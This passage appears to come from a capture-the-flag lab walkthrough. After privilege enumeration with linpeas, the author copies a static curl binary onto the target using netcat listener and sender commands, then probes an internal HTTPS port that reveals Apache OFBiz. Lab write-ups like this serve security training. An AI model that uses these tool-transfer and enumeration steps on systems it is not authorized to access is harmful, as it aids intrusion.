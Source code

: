 {{< figure src="__GHOST_URL__/content/images/2021/09/image-12.png" >}}

`phpinfo` gives us general information about the running version - [see here](https://www.php.net/manual/en/function.phpinfo.php). So there is something about the running version of PHP that we are not meant to see. We rerun `linpeas` as `marcus` and see something familiar, port 8443.

{{< figure src="__GHOST_URL__/content/images/2021/09/image-13.png" >}}

There is no local `curl` or `wget` on the system. So we can transfer over the `curl` binary - downloaded from [here](https://github.com/moparisthebest/static-curl/releases/tag/v7.79.0). Next we transfer it via `netcat`.

Command:
Receiving file - `nc -lvnp 6969 > curl`
Sending file - `nc 10.10.10.238 6969 < curl-amd64`

Next we give some execute permissions with `+x`. Now with `curl` on the system, we can check to see what's on port 8443.

Command:
`./curl https://127.0.0.1:8443 -v -k`

```
*   Trying 127.0.0.1:8443...
* Connected to 127.0.0.1 (127.0.0.1) port 8443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*  CAfile: /etc/ssl/certs/ca-certificates.crt
*  CApath: none
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server did not agree to a protocol
* Server certificate:
*  subject: C=US; ST=DE; L=Wilmington; O=Apache Software Fundation; OU=Apache OFBiz; CN=ofbiz-vm.apache.org; emailAddress=dev@ofbiz.apache.org
*  start date: May 30 08:43:19 2014 GMT
*  expire date: May 27 08:43:19 2024 GMT
*  issuer: C=US; ST=DE; L=Wilmington; O=Apache Software Fundation; OU=Apache OFBiz; CN=ofbiz-vm.apache.org; emailAddress=dev@ofbiz.apache.org
*  SSL certificate verify result: self signed certificate (18), continuing anyway.
> GET / HTTP/1.1
> Host: 127.0.0.1:8443
> User-Agent: curl/7.79.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 
< Content-Type: text/html;charset=utf-8
< Content-Language: en
< Content-Length: 713
< Date: Wed, 22 Sep 2021 01:16:12 GMT
< 
* Connection #0 to host 127.0.0.1 left intact
```